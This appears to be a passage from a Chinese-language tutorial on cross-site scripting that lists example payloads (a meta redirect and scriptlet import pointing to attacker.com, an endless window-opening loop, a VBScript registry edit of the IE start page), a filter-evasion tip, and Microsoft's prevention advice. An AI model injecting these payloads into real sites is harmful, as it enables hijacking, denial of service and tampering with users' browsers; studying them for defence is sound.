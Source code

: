 6、Refresh到另壹个页面： 

    <meta http-equiv="refresh" content="1;URL=http://www.attacker.com/another.htm"> 

7、scriptlet引入另壹个页面：
 
    <object type="text/x-scriptlet" data="http://www.attacker.com/import.htm"></object> 

 
8、打开无数个浏览器窗口，直至CPU超负荷，非关机不可：
 
    <script language="JavaScript"> 
    <!-- 
    while (true) 
    { 
    window.open("URI"); //如果URI就是当前页本身，那就更具破坏性。 
    } 
    //--> 
    </script> 
        
9、 修改注册表（IE 主页）

    <script language="VBScript"> 
    Set RegWsh = CreateObject("WScript.Shell") 
    RegWsh.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com" 
    </script> 
    
有时候，</script> 可以替换大小写 来躲过过滤





###预防

看看微软给出的建议

.验证输入  
.编码输出  
.设置正确的字符编码  
.使用 validateRequest 选项  
.在 Web 服务器中安装 URLScan  
.使用 HttpOnly cookie 选项   
.使用 <frame> 安全属性  
.使用 innerText 属性  
 
